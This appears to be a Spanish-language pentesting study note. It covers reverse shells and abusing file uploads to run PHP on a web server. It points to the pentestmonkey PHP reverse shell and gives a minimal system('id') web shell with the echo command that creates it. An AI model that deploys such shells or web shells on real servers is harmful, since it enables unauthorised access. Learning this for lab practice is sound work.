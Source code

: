 - **Probar diferentes tipos de reverse shell** si Bash no funciona (por ejemplo: PHP, Python, Perl, Netcat con `-e`, etc.).
- Una **reverse shell en PHP** lista para usar se puede obtener en:

```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

Solo debes editar la IP y el puerto en el código antes de desplegarla.

---

## 📂 Subir reverse en PHP (si la página permite subida de archivos)

A veces, la página nos permite subir archivos y luego acceder a ellos directamente.  
Muchas páginas interpretan archivos PHP, por lo que podemos aprovecharlo para obtener una reverse shell o ejecutar comandos.

---

### 🔸 Ejemplo simple con `system`

```php
<?php
	system('id');
?>
```
Para crear este archivo desde el editor nano por ejemplo o mediante echo y lo guardamos en un archivo que luego subimos:

```
echo "<?php\nsystem('id');\n?>" > prueba.php

```
---
	🔍 Parte por parte
	
 	
  	-1️⃣ echo
  
		echo imprime texto en la terminal.

	
 	-2️⃣ El texto:
	
 		```bash
 		"<?php\nsystem('id');\n?>"
		```
 	
  		Es un string (texto) que contiene el código que queremos poner en el archivo.

		Ahora, veamos los \n:

			\n es un salto de línea (newline).
	
			Esto hace que el código quede con el formato adecuado (cada línea en su lugar), en vez de todo en una sola línea.
   	